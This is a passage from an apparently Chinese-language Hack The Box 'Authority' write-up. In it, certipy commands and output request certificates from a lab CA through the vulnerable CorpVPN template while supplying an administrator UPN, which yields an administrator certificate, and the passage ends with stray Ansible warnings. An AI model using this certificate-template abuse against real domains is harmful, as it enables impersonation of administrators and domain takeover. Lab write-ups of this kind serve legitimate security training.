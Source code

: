 ```bash

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094800 - CERTSRV_E_UNSUPPORTED_CERT_TYPE - The requested certificate template is not supported by this CA.
[*] Request ID is 6
Would you like to save the private key? (y/N) y
[*] Saved private key to 6.key
[-] Failed to request certificate


┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy req -u 'TEST$' -p 'qwerasdf' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222 -debug
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'authority.htb' at '10.10.11.222'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[-] Got error while trying to request certificate: code: 0x80094800 - CERTSRV_E_UNSUPPORTED_CERT_TYPE - The requested certificate template is not supported by this CA.
[*] Request ID is 7
Would you like to save the private key? (y/N) 
[-] Failed to request certificate
```

##### certipy请求证书

隔了两天接着打，突然可以了？？  
之前还以为是option的问题，不过试了下上回报错的两个命令现在都可以：
```bash
┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy req -u 'TEST$' -p 'qwerasdf' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222 -debug
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'authority.htb' at '10.10.11.222'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'

┌──(kali㉿kali)-[~/HTB/Authority]
└─$ certipy req -u 'TEST$' -p 'qwerasdf' -ca AUTHORITY-CA -template 'CorpVPN' -upn administrator -dc-ip 10.10.11.222 -debug
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available